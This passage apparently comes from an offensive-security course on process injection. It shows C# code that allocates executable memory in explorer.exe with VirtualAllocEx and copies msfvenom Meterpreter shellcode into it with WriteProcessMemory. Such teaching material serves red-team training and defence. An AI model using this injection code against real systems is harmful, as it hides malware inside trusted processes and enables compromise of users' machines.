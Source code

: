 > Listing 5 - VirtualAllocEx function prototype

The first argument (_hProcess_) is the process handle to **explorer.exe** that we just obtained from _OpenProcess_ and the second, _lpAddress_, is the desired address of the allocation in the remote process. If the API succeeds, our new buffer will be allocated with a starting address as supplied in _lpAddress_.

If the address given with _lpAddress_ is already allocated and in use, the call will fail. It is better to pass a null value and let the API select an unused address.

The last three arguments (_dwSize_, _flAllocationType_, and _flProtect_) mirror the _VirtualAlloc_ API parameters and specify the size of the desired allocation, the allocation type, and the memory protections. We'll set these to 0x1000, 0x3000 (MEM_COMMIT and MEM_RESERVE) and 0x40 (PAGE_EXECUTE_READWRITE), respectively. The _VirtualAllocEx_ invocation is shown below.

```
IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
```

> Listing 6 - Calling VirtualAllocEx against explorer.exe

After allocating memory, we'll generate a 64-bit Meterpreter staged shellcode with msfvenom in _csharp_ format and embed it in the code.

Next, we'll copy the shellcode into the memory space of **explorer.exe**. We'll use _WriteProcessMemory_ for this, and again copy the import statement from **www.pinvoke.net**.

```
[DllImport("kernel32.dll")]
static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, 
    byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
```

> Listing 7 - Importing WriteProcessMemory

_WriteProcessMemory_ also takes five parameters given its [function prototype](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory):

```
BOOL WriteProcessMemory(
  HANDLE  hProcess,
  LPVOID  lpBaseAddress,
  LPCVOID lpBuffer,
  SIZE_T  nSize,
  SIZE_T  *lpNumberOfBytesWritten
);
```

> Listing 8 - WriteProcessMemory function prototype

We first pass the process handle (_hProcess_), followed by the newly-allocated memory address (_lpBaseAddress_) in **explorer.exe**, along with the address of the byte array (_lpBuffer_) containing the shellcode. The remaining two arguments are the size of the shellcode to be copied (_nSize_) and a pointer to a location in memory (_lpNumberOfBytesWritten_) to output how much data was copied. The call to _WriteProcessMemory_ is shown below:

```
byte[] buf = new byte[626] { 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc...

IntPtr outSize;
WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
```
